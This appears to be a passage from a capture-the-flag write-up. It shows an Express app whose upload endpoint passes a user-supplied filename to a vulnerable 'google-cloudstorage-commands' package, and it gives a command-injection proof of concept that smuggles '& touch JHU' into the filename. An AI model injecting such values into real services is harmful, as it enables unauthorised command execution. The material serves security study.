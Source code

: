     if (!user || !user.canDelete) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
    }

    messages = messages.filter((m) => m.id !== req.body.messageId);
    res.send({ok: true});
    });
    app.post('/upload', (req, res) => {
    const user = findUser(req.body.auth || {});
    if (!user || !user.canUpload) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
    }

    filename = req.body.filename;
    root.upload(\"./\",filename, true);
    res.send({ok: true, Uploaded_File: filename});
    });

    app.post('/todo', (req, res) => {
    const user = findUser(req.body.auth || {});
    if (!user) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
    }

    filename = req.body.filename;
    testFolder = \"/usr/src/app\";
    fs.readdirSync(testFolder).forEach(file => {
    if (file.indexOf(filename) > -1) {
    var buffer = fs.readFileSync(filename).toString();
    res.send({ok: true, content: buffer});
    }
    });
    });

    app.listen(3000);
    console.log('Listening on port 3000...');
    "}

// Most interesting thing in that file its the first line

    {"ok":true,"content":"var root = require(\"google-cloudstorage-commands\");

// Searching for 'google-cloudstorage-commands' vulnerabilities, i found a vulnerablility for [Command Injection](https://snyk.io/vuln/SNYK-JS-GOOGLECLOUDSTORAGECOMMANDS-1050431).

PoC:

    var root = require("google-cloudstorage-commands");
    root.upload("./","& touch JHU", true);

// In our case we need to manipulate the "filename"

    root.upload("./",filename, true);
